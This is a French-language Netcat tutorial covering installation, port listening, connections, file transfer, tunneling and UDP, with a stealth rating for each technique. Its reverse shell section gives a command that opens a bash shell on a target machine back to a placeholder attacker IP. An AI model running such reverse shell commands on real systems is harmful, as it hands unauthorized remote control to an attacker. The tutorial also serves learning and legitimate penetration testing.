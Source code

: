 # 😁 Netcat

#### Introduction

Netcat, souvent surnommé "le couteau suisse des réseaux", est un outil polyvalent et puissant utilisé pour la gestion des connexions réseau. Il peut être utilisé pour diverses tâches telles que l'écoute sur des ports, la connexion à des hôtes distants, le transfert de fichiers, et la création de tunnels. Netcat supporte à la fois les protocoles TCP et UDP, ce qui le rend extrêmement utile dans des scénarios de dépannage réseau, de tests de pénétration et de développement. Ce tutoriel vous guidera à travers les étapes d'installation et d'utilisation de Netcat sur les systèmes Linux et Windows.

**Installation sur Linux**

1.  **Installer via apt (pour les distributions basées sur Debian)** :

    ```bash
    sudo apt update
    sudo apt install netcat
    ```

    * **Explication** :
      * `sudo apt update` : Met à jour la liste des paquets disponibles.
      * `sudo apt install netcat` : Installe Netcat via le gestionnaire de paquets `apt`.

**Installation sur Windows**

1. **Télécharger Netcat depuis nmap.org ou** [**netcat.sourceforge.net**](http://netcat.sourceforge.net/).
   * **Explication** : Téléchargez et décompressez l'archive, puis placez l'exécutable dans un répertoire accessible.

#### Utilisation de Base

**1. Écoute d’un Port**

1.  **Lancer Netcat pour écouter sur un port spécifique** :

    ```bash
    nc -l -p 1234
    ```

    * **Explication** :
      * `-l` : Met Netcat en mode écoute (listening).
      * `-p 1234` : Spécifie le port sur lequel Netcat écoutera les connexions (port 1234 dans cet exemple).
    * **Discrétion** : Moyenne. Écouter sur un port peut être détecté par les systèmes de surveillance réseau.
2.  **Exemple avec une adresse IP spécifique** :

    ```bash
    nc -l -p 1234 -s 192.168.1.100
    ```

    * **Explication** :
      * `-s 192.168.1.100` : Spécifie l'adresse IP sur laquelle écouter.
    * **Discrétion** : Moyenne. L'écoute sur une IP spécifique peut également être détectée.

**2. Connexion à un Hôte**

1.  **Se connecter à un serveur sur un port spécifique** :

    ```bash
    nc example.com 1234
    ```

    * **Explication** :
      * `example.com` : L'adresse de l'hôte auquel se connecter.
      * `1234` : Le port sur lequel se connecter.
    * **Discrétion** : Moyenne. La connexion à un hôte peut être détectée par les systèmes de surveillance réseau.
2.  **Connexion avec une adresse IP spécifique** :

    ```bash
    nc 192.168.1.100 1234
    ```

**3. Transfert de Fichiers**

1. **Envoyer un fichier à travers une connexion Netcat** :
   *   **Sur l’hôte récepteur (écouteur)** :

       ```bash
       nc -l -p 1234 > received_file.txt
       ```

       * **Explication** : Le fichier reçu sera enregistré en tant que `received_file.txt`.
       * **Discrétion** : Moyenne. Le transfert de fichiers peut être détecté.
   *   **Sur l’hôte émetteur (expéditeur)** :

       ```bash
       nc example.com 1234 < file_to_send.txt
       ```

       * **Explication** : `file_to_send.txt` est le fichier à envoyer.

**4. Création d’un Tunnel**

1.  **Créer un tunnel pour rediriger un port local vers un port distant** :

    ```bash
    nc -l -p 1234 | nc example.com 5678
    ```

    * **Explication** : Cette commande redirige le trafic du port 1234 local vers le port 5678 sur `example.com`.
    * **Discrétion** : Moyenne à faible. La création de tunnels peut être détectée par les systèmes de surveillance réseau.

**5. Scénario de Reverse Shell**

1.  **Écouter sur un port (sur l’attaquant)** :

    ```bash
    nc -l -p 1234
    ```
2.  **Lancer un reverse shell (sur la machine cible)** :

    ```bash
    nc attacker_ip 1234 -e /bin/bash
    ```

    * **Explication** :
      * `attacker_ip` : Adresse IP de l'attaquant.
      * `-e /bin/bash` : Exécute `/bin/bash` pour fournir un shell interactif.
    * **Discrétion** : Faible. Les reverse shells sont souvent détectés par les systèmes de sécurité.

#### Options Avancées

**1. Mode UDP**

1.  **Écouter sur un port UDP** :

    ```bash
    nc -u -l -p 1234
    ```

    * **Explication** :
      * `-u` : Utilise le protocole UDP au lieu de TCP.
    * **Discrétion** : Moyenne. Les connexions UDP peuvent être surveillées.
2.  **Se connecter via UDP** :

    ```bash
    nc -u example.com 1234
    ```

**2. Mode Verbose**

1.  **Activer le mode verbose pour plus d’informations** :

    ```bash
    nc -v -l -p 1234
    ```

    * **Explication** :
      * `-v` : Active le mode verbose pour afficher des informations supplémentaires.
    * **Discrétion** : Moyenne. Le mode verbose affiche des informations supplémentaires mais n'affecte pas la détection des connexions.

#### Discrétion

**Discrétion** : Moyenne à faible. Netcat est souvent utilisé pour des tâches légitimes, mais il peut également être utilisé pour des activités malveillantes telles que des reverse shells. Utilise Netcat de manière responsable et dans des environnements où tu as l'autorisation. Les connexions et les activités générées par Netcat peuvent être surveillées par les systèmes de sécurité réseau.
